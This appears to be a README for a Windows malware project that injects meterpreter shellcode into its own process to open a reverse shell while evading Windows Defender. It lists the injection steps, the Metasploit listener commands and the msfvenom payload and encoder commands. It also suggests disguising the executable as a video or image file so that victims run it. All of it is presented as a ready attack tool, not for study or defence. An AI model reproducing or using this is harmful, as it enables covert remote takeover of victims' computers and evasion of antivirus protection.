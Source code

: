 # Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;
- Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

**Listener**

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

**Payload**:

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.
You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable.

**Shell**

<img align="left" src="media/.png" width="320" />
You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file. Once the victim runs the exe, a new session will pop up on meterpreter:
